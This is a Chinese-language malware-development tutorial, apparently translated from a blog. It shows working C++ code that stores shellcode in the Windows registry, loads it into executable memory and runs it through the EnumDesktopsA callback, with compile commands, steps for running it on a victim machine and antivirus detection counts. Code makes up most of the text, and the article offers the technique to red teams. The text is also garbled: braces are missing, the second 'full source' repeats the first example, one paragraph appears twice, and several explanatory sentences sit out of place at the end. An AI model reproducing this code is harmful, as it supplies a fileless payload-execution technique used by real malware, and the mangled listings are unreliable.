









\newpage
\subsection{恶意软件开发技巧：在注册表中存储二进制数据（简单的 C++ 示例）}

今天，我只是想把我的研究集中在另一个恶意软件开发技巧上：把二进制数据存储在 Windows 注册表中。

{width="80%"}

这是一种常见技术，恶意软件可以用它来实现持久化，也可以用来存储恶意载荷。

### 实战示例 1

下面是一个把二进制数据存入注册表的简单示例代码：

```cpp
void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, 
  sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);

```

这段代码会把二进制数据 \{0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77\} 写入注册表的以下位置：

好，那么我如何从注册表中取回这段二进制数据呢？

这很简单：

```cpp
void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
  printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data; 

```

用完数据后调用 `delete[]` 很重要，否则会内存泄漏。

那么，完整源代码看起来是这样的：

```cpp
/*
 * hack.cpp - store binary data in registry. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/22/malware-tricks-29.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);

void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
  printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data;

int main(void) {
  registryStore();
  registryGetData();
  return 0;

```

注意，这只是一个粗糙的 PoC。

### 演示 1

我们来看一切实际运行的样子。

首先，在攻击者的机器上编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，只要以管理员身份运行 powershell，并在受害机器上（Windows 10 22H2 x64）执行我们的二进制文件：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了！=..=

### 实战示例 2

把载荷存储在注册表中怎么样？我们来实际检验一下。

只需修改 `hack.cpp` 中的函数：

```cpp
void registryStore() {
  HKEY hkey;

  const unsigned char data[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);

```

然后，取回 shellcode 并通过 `EnumDesktopsA` 执行：

```cpp
const unsigned char data[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Then, retrieve shellcode and execute via [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html):

```cpp
void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, 
  nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  LPVOID data = VirtualAlloc(NULL, size, MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, 
  static_cast<LPBYTE>(data), &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)data, 
  (LPARAM)NULL);

  // clean up
  VirtualFree(data, 0, MEM_RELEASE);
  RegCloseKey(hkey);

```

那么，我们第二个示例的完整源代码是：

```cpp
/*
 * hack.cpp - store binary data in registry. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/22/malware-tricks-29.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

void registryStore() {
  HKEY hkey;
  BYTE data[] = {0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77};

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, 
  KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : 
  "successfully create key :)\n");

  res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : 
  "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : 
  "successfully set registry value :)\n");

  RegCloseKey(hkey);

void registryGetData() {
  HKEY hkey;
  DWORD size = 0;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)secret, 0, KEY_READ, &hkey);
  printf(res != ERROR_SUCCESS ? "failed to open reg key :(\n" : 
  "successfully open reg key:)\n");

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, nullptr, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data size :(\n" : 
  "successfully get binary data size:)\n");

  // allocate memory for the data
  BYTE *data = new BYTE[size];

  res = RegQueryValueEx(hkey, (LPCSTR)"secretMeow", nullptr, nullptr, data, &size);
  printf(res != ERROR_SUCCESS ? "failed to query data :(\n" : 
  "successfully get binary data:)\n");

  printf("data:\n");
  for (int i = 0; i < size; i++) {
  printf("\\x%02x", static_cast<int>(data[i]));
  }
  printf("\n\n");

  RegCloseKey(hkey);
  delete[] data;

int main(void) {
  registryStore();
  registryGetData();
  return 0;

```

### 演示 2

我们来看看这段逻辑的实际效果。首先编译 `hack2.cpp`：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后，只要以管理员身份运行 powershell，并在受害机器上（Windows 10 22H2 x64）执行我们的二进制文件：

```powershell
.\hack2.exe
```

{width="80%"}

{width="80%"}

我们可以看到一切都按预期工作了！=..=

这种执行代码的方法常被恶意软件（例如 ComRAT、PillowMint 和 PipeMon）以及 APT 组织（Turla）使用，所以它很可能会被杀毒软件标记，而且在启用了某些安全措施的系统上可能无法工作。

我们把它上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/fe7e412aef1af9dee801224567151f7eaa17ffdbc8c1e97202b4faccb53100e8/details>

所以，70 个 AV 引擎中有 16 个把我们的文件检测为恶意。

我希望这篇文章能让蓝队意识到这项有趣的恶意软件开发技术，同时为红队的武器库增添一件武器。

[RegCreateKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa)  
[RegOpenKeyEx](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)  
[RegSetValueEx](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)  
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)  
[MITTRE ATT&CK: Fileless Storage](https://attack.mitre.org/techniques/T1027/011/)  
[ComRAT](https://attack.mitre.org/software/S0126)  
[PillowMint](https://attack.mitre.org/software/S0517)  
[PipeMon](https://attack.mitre.org/software/S0501)  
[Turla](https://attack.mitre.org/groups/G0010/)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-05-22-malware-tricks-29)

`HKEY_CURRENT_USER\Software\meowApp\secretMeow`

如你所见，在存储之前你需要先创建 `Software\meowApp` 这个项。

请确保你有写入注册表的适当权限。

数据被读入一个动态数组，然后打印到控制台，仅仅是为了检查正确性。

和往常一样，我使用 meow-meow 消息框作为载荷：
